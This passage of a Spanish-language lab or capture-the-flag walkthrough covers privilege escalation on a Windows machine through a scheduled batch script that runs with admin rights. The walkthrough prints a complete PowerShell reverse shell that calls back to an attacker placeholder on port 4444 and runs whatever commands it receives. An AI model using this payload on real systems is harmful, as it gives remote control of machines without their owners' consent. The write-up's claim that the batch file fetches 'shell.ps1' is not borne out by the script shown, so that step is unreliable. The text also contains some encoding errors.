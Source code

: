 Vemos que se esta ejecutando algun script en el puerto `8000` y en la `IP: 192.168.1.36`, pero no sabemos que hace ese `script`.

Si leemos el otro archivo llamado `mantenimiento - copia.bat` veremos lo siguiente:

```bat
@echo off
:: ------------------------------------------------------------------
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto para mover los archivos de logs
:: Nota: Asegúrate de no modificar este script sin permisos de administrador
:: ------------------------------------------------------------------

:: Pista: Este script se ejecuta con permisos elevados. Seguro que no hay nada más?

REM Mover los archivos de logs a la carpeta de respaldo
echo Moviendo archivos de logs...
move "C:\Logs\*.log" "C:\Backup\OldLogs\"

:: Pista oculta: Si tienes acceso a este script, podrás manipular su comportamiento.
:: Asegúrate de revisar las líneas de comando en detalle. Tal vez haya una forma de aprovechar esta ejecución

REM Verificar el estado del sistema
echo Verificando el estado del sistema...
systeminfo > nul

REM Comprobando si los archivos temporales necesitan limpieza
echo Limpiando archivos temporales...
del /q "C:\Temp\*.*"

REM Pista: Todo parece estar bajo control, pero realmente lo estÃ¡?
REM Este script se ejecuta con permisos de administrador cada minuto. Tal vez haya algo Ãºtil aquÃ­.

:: Fin del script
echo OperaciÃ³n completada.
exit
```

Vemos que esta cogiendo el `shell.ps1` directamente desde cualquier `IP` por lo que vamos a crearnos un codigo para generar una `reverse shell`.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP_ATTACKER>', 4444)
$stream = $client.GetStream()
[byte[]]$buffer = 0..255|%{0}
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0)
{
    $data = (New-Object Text.ASCIIEncoding).GetString($buffer, 0, $i)
    $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
